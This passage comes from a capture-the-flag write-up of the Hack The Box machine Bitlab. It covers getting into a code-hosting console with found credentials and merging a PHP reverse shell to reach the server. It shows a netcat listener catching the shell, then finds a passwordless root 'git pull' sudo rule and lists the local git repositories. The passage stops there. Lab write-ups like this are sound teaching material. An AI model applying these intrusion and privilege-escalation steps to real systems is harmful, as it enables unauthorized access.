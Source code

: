 <p>Using the credentials discovered above we are able to get into the console as <code>clave</code>. A quick poke around and looks like he has a Developer role on the project Administrator / Profile. After examining the project a bit we realize that while we can't upload directly to the master branch our user <code>clave</code> has merge rights. We could in theory create a separate branch, upload our php reverse shell script and the approve the merge request as <code>clave</code>. Sure enough, this was quickly accomplished and we managed to get a reverse shell up and running.</p>

<p align="center">
<img src="{{ '/assets/htb-bitlab/recon-reversesh3.PNG' | relative_url }}">
</p>

<p align="center">
<img src="{{ '/assets/htb-bitlab/recon-reversesh2.PNG' | relative_url }}">
</p>

{% highlight shell %}
root@kali:~# nc -lnvp 1337
Listening on [0.0.0.0] (family 2, port 1337)
Connection from 10.10.10.114 56868 received!
Linux bitlab 4.15.0-29-generic #31-Ubuntu SMP Tue Jul 17 15:39:52 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
 15:04:25 up 6 min,  1 user,  load average: 1.78, 1.11, 0.62
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
clave    pts/0    10.10.15.14      15:02    1.00s  0.00s  0.00s -bash
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
{% endhighlight %}

<p>Unfortunately www-data was not our true user in this case. With that said however we are able to escalate directly to root from www-data and retroactively get the user.txt flag.</p>

<h1>Root exploitation</h1>

<p>As part of the initial enumeration once getting the www-data shell we notice an interesting sudo rule:</p>

{% highlight shell %}
www-data@bitlab:/home/clave$ sudo -l
sudo -l
Matching Defaults entries for www-data on bitlab:
    env_reset, exempt_group=sudo, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bitlab:
    (root) NOPASSWD: /usr/bin/git pull
www-data@bitlab:/home/clave$ 
{% endhighlight %}

<p>So we are able to run <code>git pull</code> straight as root?! Now we're talking. Quickly looked at what git repos were hosted locally that we may not have seen previously from the web portal.</p>

{% highlight shell %}
www-data@bitlab:/var/tmp$ find / -type d -name ".git" 2> /dev/null         
find / -type d -name ".git" 2> /dev/null
/srv/apps/profile/.git
/var/www/html/profile/.git
/var/www/html/deployer/.git
{% endhighlight %}
